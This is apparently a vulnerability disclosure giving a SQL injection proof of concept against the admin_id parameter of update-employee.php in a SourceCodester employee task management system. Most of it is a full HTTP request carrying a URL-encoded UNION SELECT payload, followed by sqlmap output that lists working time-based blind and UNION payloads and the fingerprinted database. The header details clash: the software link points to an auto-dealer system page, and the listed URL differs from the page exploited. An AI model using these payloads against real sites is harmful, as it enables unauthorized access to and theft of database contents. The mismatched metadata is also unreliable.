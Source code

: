 # Exploit Title: employee task management system - SQLi

### Date: 
> March 15th, 2024

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [employee task management system](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### URL:
> [/taskmatic/attendance-info.php](taskmatic/attendance-info.php)
### Proof of Concept:
Review source code
![SQL](https://github.com/tht1997/WhiteBox/blob/main/sourcecodester/update-employee.png?raw=true)
\
Step 1. Go to URL /update-employee.php?admin_id=
\
Step 2. Run with sqlmap

```
GET /taskmatic/update-employee.php?admin_id=-3580%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786a7171%2C0x4d454655527a5759756977515963705172466b7571445763574e5955704353476273685474526846%2C0x71706b7171%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--%20- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=au6ifo1ssaop7ilk8c4f09pj2j
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Connection: close

```

Step 3. sqlmap result

```
[20:40:26] [INFO] GET parameter 'admin_id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[20:40:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:40:48] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:40:50] [INFO] target URL appears to be UNION injectable with 7 columns
[20:40:51] [INFO] GET parameter 'admin_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'admin_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests:
---
Parameter: admin_id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: admin_id=28' AND (SELECT 9712 FROM (SELECT(SLEEP(5)))LThc) AND 'CUEh'='CUEh

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: admin_id=-3580' UNION ALL SELECT NULL,CONCAT(0x71786a7171,0x4d454655527a5759756977515963705172466b7571445763574e5955704353476273685474526846,0x71706b7171),NULL,NULL,NULL,NULL,NULL-- -
---
[20:42:08] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.30, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

